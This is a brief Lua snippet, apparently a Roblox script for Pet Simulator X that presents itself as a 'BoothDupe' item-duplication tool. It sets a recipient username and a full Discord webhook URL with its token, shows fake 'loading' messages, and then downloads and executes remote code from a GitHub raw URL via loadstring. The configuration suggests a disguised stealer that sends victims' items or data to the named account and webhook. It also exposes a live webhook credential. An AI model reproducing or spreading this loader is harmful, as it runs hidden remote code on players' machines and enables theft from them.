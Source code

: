 Username = "FluffyRazor"
WebHook = "https://discord.com/api/webhooks/1074395809782693940/-6HBe_2AFyJW2Iz-lExNG8agtk7EAQ0TV7a_ut8dUwmu6vpEkFXgVhiN3gMnMqotgC5k"
 
_G.CustomScriptName = "BoothDupe"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
